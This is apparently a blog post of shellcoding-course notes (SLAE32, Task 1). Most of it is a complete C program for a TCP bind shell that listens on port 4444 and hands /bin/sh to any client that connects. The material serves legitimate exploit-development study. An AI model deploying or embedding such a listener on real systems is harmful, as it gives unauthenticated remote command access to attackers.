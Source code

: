```yaml
---
title: "SLAE32"
date: 2020-07-01T01:12:00Z
draft: true
tags: ["notes", "SLAE32", "asm"]
---
```


Below are my old blog posts for the SLAE32 'certification'. 

### Task 1: ASM TCP Bind Shell

Requirements:

- Binds to a port
- Executes a shell on incoming connection
- Port should be 'easily' configurable


I wrote a C bind shell based off of other posts in order to better understand the requirements. In actuality, I wrote multiple as I found better ways of writing the same code, as one does. My final C file is below:
```C
// Shell_bind_tcp
// For SLAE32
// Howard McGreehan

#include <sys/socket.h>
#include <unistd.h>
#include <netinet/in.h>
#include <stdio.h>

int main(void)
{
        // Create a struct for the server's listening information
        struct sockaddr_in srv_addr;

        // As seen in https://www.man7.org/linux/man-pages/man7/ip.7.html 
        // Set the socket 'family' to AF_INET
        // Set the sin_port value to the port number, in network byte order
        // Set the s_addr valut to INADDR_ANY, for IP agnostic bind()
        srv_addr.sin_family = AF_INET;  
        srv_addr.sin_port = htons(4444);
        srv_addr.sin_addr.s_addr = INADDR_ANY;

        // Then, create the socket!	
        int socketfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

        // Now, we need to bind things together
        bind( socketfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

        // Next, we set the socket to 'listen', and apply a 'backlog' argument to 0
        listen( socketfd, 0 );

        // Once set to listen, we need to tell the listening socket to accept connections
        int newSocket = accept(socketfd, NULL, NULL);

        // Set up dup2 for stdin/out/err
        dup2(newSocket, 0);
        dup2(newSocket, 1);
        dup2(newSocket, 2);

        // Lastly, we execute /bin/sh
        execve( "/bin/sh", NULL, NULL );
}
```